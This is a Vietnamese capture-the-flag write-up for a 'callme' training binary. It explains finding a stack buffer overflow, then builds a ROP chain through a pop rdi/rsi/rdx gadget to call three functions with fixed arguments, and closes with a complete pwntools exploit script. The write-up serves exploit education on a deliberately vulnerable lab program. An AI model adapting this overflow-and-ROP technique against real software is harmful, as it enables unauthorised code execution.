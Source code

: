 **1. Tìm lỗi**

Chạy thử chương trình ta có:

![run.png](photo/run.png)

Chương trình cho phép nhập một chuỗi và kết thúc ngay sau đó

Dùng lệnh checksec kiểm tra:

![checksec.png](photo/checksec.png)

Ta thấy canary đang ở trạng thái disabled nên có thể khai thác qua lỗi bof

Dùng lệnh file kiểm tra

![file.png](photo/file.png)

Ta thấy là file elf64 nên mở bằng IDA64 ta được hàm main như sau: 

![main.png](photo/main.png)

Hàm pwnme: 

![pwnme.png](photo/pwnme.png)

Ta thấy biến s được khai báo 32 byte nhưng cho phép đọc 512 byte -> Có lỗi bof

Hàm usefulFunction:

![use.png](photo/use.png)

Đọc mã assembly của hàm callme_one, callme_two, callme_three thì thấy chèn các giá trị 0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d vào 3 hàm trên thì sẽ đọc các file cần thiết đề có giá trị flag

**2. Ý tưởng**

Nhập tràn biến s đến ret rồi gọi theo thứ tự các hàm callme_one, callme_two, callme_three với các giá trị tương ứng đã nêu ở trên

Để truyền các giá trị vào các hàm trên thì chúng ta cần truyền các giá trị trên vào các thanh ghi rdi, rsi, rdx nên chúng ta cần phải pop các thanh ghi kia ra

Thứ tự payload:
 - 40 byte để tràn đến ret
 - Địa chỉ câu lệnh pop rdi, rsi, rdx
 - Truyền các địa chỉ tương ứng vào
 - địa chỉ lệnh callme_one
 - tương tự với callme_two và callme_three

![pop.png](photo/pop.png)

Ta thấy địa chỉ 0x000000000040093c đã pop luôn cả 3 thanh ghi cần thiết ra

**3. Viết script**

![s.png](photo/s.png)

Khoảng cách từ s đến ret là: 0x20 + 0x8 = 40

Ta có script như sau:

```
from pwn import *

elf = ELF('callme')
r = process("./callme")
pop = 0x000000000040093c
arg1 = 0xdeadbeefdeadbeef
arg2 = 0xcafebabecafebabe
arg3 = 0xd00df00dd00df00d
callme_one = elf.symbols['callme_one']
callme_two = elf.symbols['callme_two']
callme_three = elf.symbols['callme_three']

payload = b'a'*40
payload += p64(pop)
payload += p64(arg1) + p64(arg2) + p64(arg3)
payload += p64(callme_one)
payload += p64(pop)
payload += p64(arg1) + p64(arg2) + p64(arg3)
payload += p64(callme_two)
payload += p64(pop)
payload += p64(arg1) + p64(arg2) + p64(arg3)
payload += p64(callme_three)

input()
r.sendafter('> ', payload)

r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)
